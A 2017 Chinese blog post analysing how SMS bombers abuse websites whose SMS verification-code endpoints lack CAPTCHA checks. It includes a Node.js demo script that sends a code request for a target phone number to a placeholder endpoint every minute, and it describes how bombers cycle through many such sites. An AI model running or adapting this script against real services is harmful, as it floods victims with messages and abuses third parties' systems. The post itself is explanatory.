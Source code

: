 ```yaml
---
layout: post
title: 浅析短信轰炸机的实现
date: 2017-02-19
---
```


最近在某运营商的官网准备给办理个业务，发现他们允许用户通过手机号+短信验证码登录。
在用户输入手机号后点击按钮就可以获取到短信验证码，在发送之前根本不需要用户输入图形验证码之类的内容。
也就是说，他们根本不校验当前调用发送短信接口的是人还是机器。熟悉信息安全的人就会发现，这会给不法分子可趁之机，让他们利用该接口短信轰炸别人。
我用postman测试了下，他们的接口也不是完全裸奔，至少还有频率限制，一分钟一次。
于是，我就通过node.js实现了一个demo，代码大致如下：
```javascript
/*
 *注意：以下代码已经经过修改，无法直接使用。
 *同时提醒，该代码仅用作学习交流，请勿用于非法用途,否则后果作者概不负责
 */

 const https = require('https'),
ONE_MIN = 60 * 1000; //很多网站有频率限制，此处定义为一分钟
var success_times = 0,
fail_times = 0,
phoneNum = "11111111111"; //手机号
function sendSMS() {
    var options = {
        hostname: 'xxx.com',
        //网站域名
        port: 443,
        path: '/sendRandomCode.action?phone=' + phoneNum,
        //发送短信验证码的接口
        method: 'POST',
        rejectUnauthorized: false
    };

    var req = https.request(options,
    function(res) {
        res.on('data',
        function(d) {
            if (res.statusCode == 200 && d == 0) {
                ++success_times;
                console.log("success times:" + success_times);
                return;
            }

            ++fail_times;
            console.log("fail times:" + fail_times);
        });
    });

    req.end();
    req.on('error',
    function(e) {
        console.error(e);
    });
}

sendSMS();
setInterval(sendSMS, ONE_MIN); //每一分钟发送一条

```

很多人会说，这个没用，我只要把对应的号码拉黑就行了。
是的，对于比较弱或者比较懒的黑客，你完全可以通过手机黑名单解决。但是，绝大多数的短信轰炸机怎么可能只是单纯调一个网站的接口呢？

现在很多大网站注册、付费、修改个人信息时，都经常需要手机验证码。
开发短信轰炸机的人早就将存在漏洞的网站接口收集好了，当在轰炸机上输入了手机号码后，
程序就会逐个去请求发送短信的URL，其中的参数就是手机号，那些网站在收到请求后就会往这个号码发短信了。
一会儿几十或上百条各种网站的验证码、购买信息等垃圾短信就被发送到了这个手机上。
